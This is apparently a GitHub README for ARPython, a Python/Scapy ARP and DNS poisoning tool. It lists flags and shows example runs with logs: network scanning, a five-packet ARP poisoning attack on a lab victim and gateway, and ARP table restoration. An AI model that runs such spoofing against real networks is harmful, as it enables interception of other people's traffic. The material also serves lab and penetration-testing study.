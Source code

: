 # ARPython
An APR and DNS poisoning tool writting in python.

### Requirements

1. Linux based system
2. Python 2.7
3. Scapy installed
4. Python TKinter installed if you want to use the GUI

### Usage

To use the tool you will need to download/clone all the files. If you don't want to use the GUI you can leave the gui.py file out.
This script needs elevated rights for some actions. To launch navigate to the folder and use command `sudo python arppython.py`.
A help command will come up that will be pretty self explanatory. All possible flags will be listed here though.

`-h. --help` - Prints the help screen

`-g, --gui` - Opens the GUI

`-a, --arp {s,silent,n,normal,r,restore}` - Use this command to start ARP poisoning. Specify either the silent or non-silent method or the restore method which will restore the ARP tables

`-p, --packets AMOUNT` - Specify a custom amount of packets for the normal ARP poison attack

`-vi, --victim VICTIM` - Specify the IP address of the victim

`-gt, --gateway GATEWAY` - Specify the IP address of the gateway to use for the attack

`-vm, --victimmac VICTIMMAC` - Specify the mac address of the victim, can be left blank. If blank the script with grab the mac address from the specified victim IP. If you want multiple victims just separate them by comma and the program will start attacking them simultaneously

`-gm, --gatewaymac GATEWAYMAC` - Specify the mac address of the gateway, can be left blank just as the victim MAC

`-am, --attackermac ATTACKERMAC` - Specify a custom attacker MAC address for the attacker, if left blank the current machines MAC will be used

`-s, --scan` - Scans which network interfaces are available and prints information about them

`-si, --scaniface IFACE` - Scans a given network interface for active IP and MAC addresses. Just specifying the IP address is enough for this command

`-d, --debug` - Set the logging level to debug

`-v, --verbose` - Set the logging level to verbose

When the tool is busy it can at any point be interrupted by using `CTRL + C`. All the logging info will also be saved to log.txt where you can see exactly what happened.

### Examples

Some examples to show usage

Doing a scan, scan interface and then normal ARP poisoning attack with 5 packets

```buildoutcfg
sudo python arpython.py -s
2019-03-31 22:50:35,567 - INFO - Scanning for interfaces
2019-03-31 22:50:35,569 - INFO - The following interfaces are present: 
2019-03-31 22:50:35,569 - INFO - 10.0.3.0/24, enp0s8
2019-03-31 22:50:35,569 - INFO - 169.254.0.0/16, enp0s3
2019-03-31 22:50:35,569 - INFO - 192.168.56.0/24, enp0s3

sudo python arpython.py -si 192.168.56
2019-03-31 22:50:58,794 - INFO - Matching the interface
2019-03-31 22:50:58,795 - INFO - Scanning for devices
2019-03-31 22:50:58,795 - INFO - Using scapy arping with 192.168.56.0/24 on enp0s3
2019-03-31 22:51:04,040 - INFO - 0a:00:27:00:00:10 192.168.56.1
2019-03-31 22:51:04,040 - INFO - 08:00:27:92:de:10 192.168.56.100

sudo python arpython.py -a n -vi 192.168.56.100 -gt 192.168.56.1 -p 5
2019-03-31 22:53:54,270 - INFO - Grabbing the victims MAC address(es) since nothing was specified
2019-03-31 22:53:54,377 - INFO - 08:00:27:92:de:10
2019-03-31 22:53:54,378 - INFO - Grabbing the gateways MAC address since nothing was specified
2019-03-31 22:53:54,473 - INFO - 0a:00:27:00:00:10
2019-03-31 22:53:54,473 - INFO - Starting ARP Poison
2019-03-31 22:53:54,474 - INFO - Start spoofing network on 192.168.56.100
2019-03-31 22:53:54,474 - INFO - Starting iteration 0 for 192.168.56.100
2019-03-31 22:53:54,475 - INFO - Spoofing 192.168.56.100
.
.
2019-03-31 22:54:02,907 - INFO - Starting iteration 4 for 192.168.56.100
2019-03-31 22:54:02,908 - INFO - Spoofing 192.168.56.100
2019-03-31 22:54:05,028 - INFO - Done spoofing

sudo python arpython.py -a r -vi 192.168.56.100 -gt 192.168.56.1
2019-03-31 23:05:54,418 - INFO - Grabbing the victims MAC address(es) since nothing was specified
2019-03-31 23:05:54,553 - INFO - 08:00:27:92:de:10
2019-03-31 23:05:54,553 - INFO - Grabbing the gateways MAC address since nothing was specified
2019-03-31 23:05:54,637 - INFO - 0a:00:27:00:00:10
2019-03-31 23:05:54,638 - INFO - Starting ARP Restore
2019-03-31 23:05:54,640 - INFO - Starting ARP restoration for 192.168.56.100
2019-03-31 23:05:54,758 - INFO - Restoration successful
```